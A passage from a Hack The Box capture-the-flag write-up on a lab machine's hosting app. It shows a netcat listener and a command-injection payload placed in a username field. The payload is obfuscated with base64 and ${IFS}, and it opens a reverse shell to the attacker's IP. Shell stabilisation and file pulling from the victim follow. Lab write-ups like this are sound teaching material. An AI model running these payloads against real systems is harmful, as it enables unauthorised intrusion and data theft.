 Let's get a shell on the box. I mostly use [revshells.com]((https://www.revshells.com/) for reverse shell payloads. 
Start a listener on your attacking machine to receive the shell.

```bash
$ nc -lvnp 90
```

- **-l** for listener
- **-v** for verbosity
- **-n** for numeric IP address, no DNS name.
- **-p** for port number

![Pasted image 20240302153838](https://github.com/iammR0OT/HTB/assets/74102381/a8d68742-13de-419f-8052-6752fc4584b3)

Paste the payload into the username parameter. The payload will be:

```bash
$(echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMy85MCAwPiYx"|base64${IFS}-d|bash)
```

![Pasted image 20240302164429](https://github.com/iammR0OT/HTB/assets/74102381/51a1c725-e25d-484c-a0f6-7a613a32ae7c)

And we got a shell back within no time.

![Pasted image 20240302153935](https://github.com/iammR0OT/HTB/assets/74102381/45c9fac6-66bf-4751-b7b3-fbc0e5ac41df)

Let's make this shell fully interactive and stable using:

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'  # for interactive shell
$ export TERM=xterm # to sets the terminal emulator to linux
$ CTRL+Z   # to background the process
$ stty raw -echo;fg   # to make shell stable
```

![Pasted image 20240302154713](https://github.com/iammR0OT/HTB/assets/74102381/d231406b-829a-4311-bce8-ef779085a858)

### Shell as Josh

So there are basically two users on the machine, **josh** and **root**. Also, there is a **PostgreSQL** database running on the machine. If somehow we manage to obtain the credentials of the database, we could find juicy information there.

![Pasted image 20240302154846](https://github.com/iammR0OT/HTB/assets/74102381/bb1e6f29-9262-4a28-86f1-3e2f3c6d434e)

There is a `cloudhosting-0.0.1.jar` file present in the `/app` directory. Let's download it to our local machine. Since Python is present on the machine, I will run a Python server on the victim machine to download the files.

![Pasted image 20240302155213](https://github.com/iammR0OT/HTB/assets/74102381/b54c9692-04b0-4b2f-bdb1-082d888c8dbb)

The file has been successfully downloaded to our attacking machine. Let's analyze it now.

![Pasted image 20240302155419](https://github.com/iammR0OT/HTB/assets/74102381/0278e4a0-4fd2-47da-b284-e70bbb5dc91e)
